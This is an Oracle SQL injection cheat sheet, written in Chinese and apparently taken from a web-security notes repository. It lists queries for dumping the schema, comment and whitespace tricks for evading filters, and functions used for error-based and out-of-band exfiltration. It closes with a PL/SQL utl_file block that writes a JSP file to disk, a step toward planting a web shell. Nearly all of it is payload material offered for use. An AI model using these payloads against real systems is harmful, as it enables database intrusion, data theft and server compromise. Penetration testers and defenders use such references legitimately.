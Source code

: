 Oracle Payload
========================================

常见Payload
----------------------------------------
- dump
    - ``select * from v$tablespace;``
    - ``select * from user_tables;``
    - ``select column_name from user_tab_columns where table_name = 'table_name';``
    - ``select column_name, data_type from user_tab_columns where table_name = 'table_name';``
    - ``SELECT * FROM ALL_TABLES``
- Comment
    - ``--``
    - ``/**/``
- Space
    - ``0x00`` ``0x09`` ``0xa-0xd`` ``0x20``
- 报错
    - ``utl_inaddr.get_host_name``
    - ``ctxsys.drithsx.sn``
    - ``ctxsys.CTX_REPORT.TOKEN_TYPE``
    - ``XMLType``
    - ``dbms_xdb_version.checkin``
    - ``dbms_xdb_version.makeversioned``
    - ``dbms_xdb_version.uncheckout``
    - ``dbms_utility.sqlid_to_sqlhash``
    - ``ordsys.ord_dicom.getmappingxpath``
    - ``utl_inaddr.get_host_name``
    - ``utl_inaddr.get_host_address``
- OOB
    - ``utl_http.request``
    - ``utl_inaddr.get_host_address``
    - ``SYS.DBMS_LDAP.INIT``
    - ``HTTPURITYPE``
    - ``HTTP_URITYPE.GETCLOB``
- 绕过
    - ``rawtohex``

写文件
----------------------------------------
.. code-block:: sql

    create or replace directory TEST_DIR as '/path/to/dir';
    grant read, write on directory TEST_DIR to system;
    declare
       isto_file utl_file.file_type;
    begin
       isto_file := utl_file.fopen('TEST_DIR', 'test.jsp', 'W');
       utl_file.put_line(isto_file, '<% out.println("test"); %>');
       utl_file.fflush(isto_file);
       utl_file.fclose(isto_file);
    end;
